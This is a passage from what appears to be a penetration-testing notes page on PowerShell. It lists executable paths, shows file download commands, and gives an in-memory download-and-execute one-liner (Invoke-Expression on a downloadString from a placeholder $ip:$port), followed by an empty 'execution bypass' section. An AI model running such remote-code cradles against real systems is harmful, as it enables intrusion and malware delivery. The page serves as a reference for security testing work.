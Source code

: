 | Name                                   | Location                                                                 |
| -------------------------------------- | ------------------------------------------------------------------------ |
| 32-bit (x86) PowerShell executable     | **`$env:SystemRoot\SysWOW64\WindowsPowerShell\v1.0\powershell.exe`**     |
| 64-bit (x64) Powershell executable     | **`$env:SystemRoot\system32\WindowsPowerShell\v1.0\powershell.exe`**     |
| 32-bit (x86) Powershell ISE executable | **`$env:SystemRoot\SysWOW64\WindowsPowerShell\v1.0\powershell_ise.exe`** |
| 64-bit (x64) Powershell ISE executable | **`$env:SystemRoot\system32\WindowsPowerShell\v1.0\powershell_ise.exe`** |

### Windows PowerShell Executables File System Locations on 32-bit Windows

The default paths to the executables for PowerShell and PowerShell ISE on relevant **32-bit** Windows operating systems:

| Name                                   | Location                                                                 |
| -------------------------------------- | ------------------------------------------------------------------------ |
| 32-bit (x86) Powershell executable     | **`$env:SystemRoot\system32\WindowsPowerShell\v1.0\powershell.exe`**     |
| 32-bit (x86) Powershell ISE executable | **`$env:SystemRoot\system32\WindowsPowerShell\v1.0\powershell_ise.exe`** |
{% endtab %}

{% tab title="Linux/MacOS" %}
PowerShell full path: `/usr/local/microsoft/powershell/7/`

7 is the version number of PS Core, so this can change...
{% endtab %}
{% endtabs %}

### Downloading files with PowerShell (`wget`)&#x20;

#### PowerShell version of `wget:`

```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('$ip:$port/$file','$outfile'))"
```

You can also use the example below to save the file to the local machine.

```powershell
wget https://zweilosec.gitbook.io/hackers-rest -OutFile C:\Windows\Temp\out.html
```

`wget` is an alias for `Invoke-WebRequest`. Adding `-Outfile $out_file` is needed to save the file to disk.

Retrieve file and execute remote code after downloading (in-memory!):

```bash
powershell -c "Invoke-Expression(New-Object System.Net.Webclient).downloadString('http://$ip:$port/$file')"
```

### PowerShell Script Execution Bypass

TODO: Expand and clean up PowerShell Bypass section. Link to Windows Privilege Escalation page (issue [#27](https://github.com/zweilosec/Infosec-Notes/issues/27))
